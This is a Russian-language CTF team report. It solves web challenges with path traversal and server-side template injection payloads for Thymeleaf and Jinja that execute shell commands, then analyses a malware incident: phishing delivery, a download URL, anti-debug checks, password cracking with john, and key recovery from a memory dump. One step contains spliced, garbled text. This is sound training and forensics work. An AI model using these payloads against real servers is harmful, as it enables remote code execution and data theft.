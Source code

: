 # Отчет
Команда: **404 команда не найдена**.

## Первый этап (CTF)

### Web 1
На сайте можно сделать только одно -- перейти по ссылке в 20 дне.
Тут есть подсказка, которая говорит, что влаг находится в `etc/secret`.
В URL есть параметр `file_type=`, что очень напоминает SSTI.
Добавляем `../` перед путем `etc/secret` до тех пор, пока не найдем файл.


### Web 2
Открываем файл legacy.jar с помощью jd-gui. В папке BOOT-INF/classes в пакете com.server видим файл HelloController, который содержит эндпоинты сервера. Нам нужен /doc/{document}. Возможно, здесь есть что-то вроде SSTI для Spring ThymeleafView. Гуглим и находим полезную нагрузку. В коде сервера можно заметить, что флаг хранится в файле `flag`. Переходим по адресу `http://192.168.12.13:8090/doc/__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("cat flag").getInputStream()).next()}__::..x` и получаем флаг!


### Web 3
В коде сервера app.py видим, что существует адрес `/flag`, но если на него перейти, то мы получим ошибку `403 Forbidden`. Гуглим способы обхода этой ошибки. Правильным адресом является `http://192.168.12.11:8001//flag`. Дальше нам нужно использовать SSTI уязвимость без использования запрещенных в коде сервера символов. В фильтре сервера есть недочёт: \w совпадает с любым символом слов ([a-zA-Z0-9_]), фильтры для {{, }}, [, ] не работают. Гуглим. Правильный payload: `{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}`.
По адресу `http://192.168.12.11:8001//flag?name={{self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27cat%20flag.txt%27).read()}}` будет флаг.


## Второй этап

### №1
Вирус попал по не внимательности человека, человек открыл ссылку и скачал "обновление" и тем самым подхватил вирус.
Исходя из истории браузера он заходил в почту в 18.41 а файл появился на пк в 18.43.

### №2
Ответ можно найти в журнале событий (eventvwr.msc) в разделе логов powershell.
В 18.42.04 вредоносный файл был скачан с этого адреса http://95.169.192.220:8080/prikol.exe.

### №3
В папке `C:\Users\Evgeniy\AppData\Local\Microsoft\Outlook` храился архив почты `company_worker123@rambler.ru.ost`. Открыв его через специальную программу, можно получить все письма из почтового ящика владельца. В одном письме от `Jeremy Nathan<j.nathan@microsoft.com>` есть вложенный .rar файл. Под .pdf может хранится cmd файл. ВПО попало через уязвимсть в WinRAR.

### №4
Тут используется обнаружение отладчика, при запуске x64dbg и попытке запустить дальше код, появляется командная строка, сразу проподает, и идет в самое начало. Появляется сообщение, которое \
`IsDebuggerPresent`. Эта функция проверяет, запущена ли отладка для текущего процесса, и выполняет несколько операций, связанных с управлением памятью. Если отладка запущена, функция возвращает 1, иначе она выполняет некоторые действия с кучей и возвращает 0. Этот код, вероятно, является частью системы защиты от отладки.

### №5
Скачав файл pass.txt.ransom и выполнив команду джоном `john -wordlist="/home/kali/Downloads/rockyou.txt" "/home/kali/Desktop/pass.txt.ransom"` получил вывод:
```
Using default input encoding: UTF-8 Loaded 1 password hash (cryptoSafe [AES-256-CBC]) Will run 12 OpenMP threads Press 'q' or Ctrl-C to abort, almost any other key for status 0g 0:00:00:01 DONE (2024-03-20 17:42) 0g/s 9756Kp/s 9756Kc/s 9756KC/s 32110017..*7¡Vamos! Session completed.
```
=> шифр **AES-256-CBC**

Строки в исполняемом файле, которые доказывают алгоритм шифрования:
- this object requires an IV
- StreamTransformationFilter: invalid PKCS #7 block padding found

### №6,8
1) Вирус убивает все процессы, которые в нем заложены (Taskmgr.exe, ResourceHacker.exe и т. д.). Чтобы это обойти нужно переименовать утилиту, например, Process Explorer, в что-то другое.
2) Запускаем вирус, замораживаем его с помощью Process Explorer и делаем дамп памяти.
3) Анализруем полученный дамп с помощью утилиты `strings` и отсекаем все строки, длина которых не равна 32 символам. Команда:уязмимость “Вредоносные вложения в электронных письмах” Из хрома видно что он заходил на рамблер, и после этогго появился файл rjomba, со времени 18.40-18.43 `strings Rjomba.dmp | grep -E '^.{32}$'`.
4) Находим две подозрительные строки: amogusamogusamogusamogusamogusam и sugomasugomasugomasugomasugomasu
5) Выполняем поиск по `amogusamogusamogusamogusamogusam` и находим рядом строку `ababab`.
6) Продолжаем ее до 16 символов. Получаем IV: `abababababababab`.
Пробуем расшифровать pass.txt. Ошибки не возникает только в случае использования amogusamogusamogusamogusamogusam.

Используется ключ: `amogusamogusamogusamogusamogusam`

Содержимое pass.txt:
```
sFYZ#2z9VdUR9sm`3JRz
```


### №7
Отправляет он на телеграмм, с помощью API. Это показанно если зайти в `virus total > behavior`